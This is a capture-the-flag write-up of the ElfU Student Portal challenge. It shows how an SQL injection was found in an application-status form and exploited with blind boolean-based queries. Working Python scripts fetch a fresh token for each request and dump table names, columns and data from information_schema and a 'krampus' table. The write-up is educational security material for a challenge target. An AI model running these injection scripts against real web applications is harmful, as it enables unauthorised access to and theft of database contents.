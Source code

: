 # ElfU Student Portal

## Initial Web App Exploration

The web application basically allows users to apply to ElfU by submitting a simple form, and then allows users to check on their application status by submitting an email address. 

<img src='img/application_form.png'>

## Check Application Status

If we submit an application with the email `testing123@example.com` to `application-check.php`, and then proceed to check the application status of that email, the web application shows us the message that the application is still pending.

<img src='img/pending.png'>

If however, we ask for the application status of a non-existant email, we get back a message that no application was found with that email address.

<img src='img/not_found.png'>

There is probably some way that the web application is using the email address we supply to it to check on the application status, or at least it checks that the email address exists somewhere. It is likely to be some form of database application behind the scenes.

## SQL Injection Testing

What happens if we give it a typical SQL Injection then? We submit `'@example.com`.

<img src='img/error.png'>

Not only do we throw an error on the page, but the web application gives us a gratuitous amount of information!
1. We now know the exact query made to the database application is `SELECT status FROM applications WHERE elfmail = '<user_input>'`
2. We also know that the database is MariaDB, informing us about the schema of the database.

If we try to submit the same request to the web application again, we see a different error stating that the token is invalid or expired.

<img src='img/expired_token.png'>

Looking into the actual web request made, we see that there is some Base64-encoded parameter labelled `token`. Further exploration into where this token comes from shows that the token is generated when a GET request is made to `validator.php`.

<img src='img/validator.png'>

Hence, we need to make a request to `validator.php` prior to our SQL Injection so that we have a valid token.

## Fixing Our SQL Injection Query

Let's see what happens if we grab a valid token from `validator.php` and submit a syntactically correct SQL query with our injection such as `asdifj' UNION SELECT 1 -- ` in order to guess at what happens if the query gets back a response of `1`. We use the following <a href='src/test.py'>python script</a> to perform this test.

```
import requests
import bs4
import urllib.parse


def get_token():
    validator_req = "https://studentportal.elfu.org/validator.php"
    validator_res = requests.get(validator_req)
    token = validator_res.content.decode('utf-8').replace('=','%3D')
    return token
       
def sql_query(query):
    query = urllib.parse.quote(query)
    application_req = "https://studentportal.elfu.org/application-check.php"
    application_req += "?token=" + get_token() + "&elfmail=" + query
    application_res = requests.get(application_req)
    response = bs4.BeautifulSoup(application_res.content, features="html.parser").p.text.strip()
    return response


query = "asdifj' UNION SELECT 1 -- "
print(sql_query(query))
```

<img src='img/fixed_sqli.png'>

We get an interesting message regarding Krampus' secrets. Perhaps we should spend some more time digging in the database.

## Blind SQL Injection

Since the results of the SQL Injection are not directly dumped back to us on the client side, we will need to make use of Blind SQL Injection techniques in order to infer the dumped data. At this point, it may seem that using an automated tool such as `sqlmap` would be a good idea. However, since there is a need to get a new token each time we make a web request, we would need to integrate the call to `validator.php` into the script. This is possible, albeit painful, by integrating `sqlmap` with `burp suite` or using `tamper scipts` in `sqlmap` to add in the token from `validator.php`. For the sake of education and in the spirit of self-sufficiency, I opted to script out the entire Blind SQL Injection process instead.

Since we know we will get a response that tells us when no applications are found for a given SQL query, we can make use of Boolean-Based SQL Injection to get our dumped data.

Our query will look like:

`SELECT status FROM applications WHERE elfmail = 'asdifj' UNION SELECT <column_name> FROM <table_name> WHERE <column_name> LIKE '<payload>%'`

We use `asdifj` as our dummy search query to ensure that the original query returns no results.

We then do a `UNION` to add another query to the original.

Since the original query had just one column (`status`), we can only have one column in our new query.

We need to specify a `table_name` and a `column_name`.

The final part of the new query is a `LIKE` statement, that allows us to match substrings instead of the entire word. The `%` symbol denotes a wildcard for zero or more characters, and it will be appended to the end of our `payload` variable.

Our `payload` will be made up of a set of characters that we would like to have the script brute force through. If a match is found, we will add another character to the payload and continue to run through the whole character set until no more matches are found.

If we put all that in a for loop for a given character set and look at the responses, we can enumerate any data inside the database. Admittedly, this can be a very slow process depending on the character set. However, since each request is independent of each other, we can use multithreading to drastically speed up the process. You will find all this implemented in the following <a href='src/dump_tables.py'>python script</a> which will basically dump out all the table names.

```
import requests
import threading
import queue
import bs4
import urllib.parse
import sys

char_set = list("./0123456789abcdefghijklmnopqrstuvwxyz")
payloads = ['']
results = []
que = queue.Queue()
threads = []


def sql_dump(payload):
    for char in char_set:
        x = threading.Thread(target=lambda que,
                             payload, char:
                             que.put(sql_query(payload, char)),
                             args=(que, payload, char))
        threads.append(x)
        x.start()
    for thread in threads:
        thread.join()
    temp = []
    while not que.empty():
        temp.append(que.get())
        threads.pop()
    if True not in temp:
        results.append(payload)

def get_token():
    validator_req = "https://studentportal.elfu.org/validator.php"
    validator_res = requests.get(validator_req)
    token = validator_res.content.decode('utf-8').replace('=','%3D')
    return token
       
def sql_query(payload, char):
    query = "asdifj' UNION SELECT table_name FROM information_schema.tables WHERE table_name LIKE '" + payload + char + "%"
    query = urllib.parse.quote(query)

    application_req = "https://studentportal.elfu.org/application-check.php"
    application_req += "?token=" + get_token() + "&elfmail=" + query
    application_res = requests.get(application_req)

    response = bs4.BeautifulSoup(application_res.content, features="html.parser").p.text.strip()
    if response != "No application found!":
        payloads.append(payload + char)
        print(payload + char + '\n', end='')
        return True
    return False
    

while payloads:
    payload = payloads.pop(0)
    sql_dump(payload)
print(results)
```

<img src='img/dump_tables.png'>

It takes about 10 minutes to get the results. Out of all the tables, the one that most interests us is `krampus`. We make some modifications to the query in the previous code to dump the column names from the `krampus` table. You can find the python script <a href='src/dump_columns.py'>here</a>.

<img src='img/dump_columns.png'>

So there are only 2 columns. We are interested in `path` as it should tell us where the files with the flag should be. Again, we make some modifications to the query in order to dump out the data in `path` of `krampus`. You can find the python script <a href='src/dump_data.py'>here</a>.

<img src='img/dump_data.png'>

## Finding The Scraps Of Paper

If we navigate to https://studentportal.elfu.org/krampus, we will come across the following message.

<img src='img/krampus.png'>

Thankfully, we already have the full path of the files we need. If we grab all the images and reassemble the paper, we get the following message.

<img src='img/flag.png'>
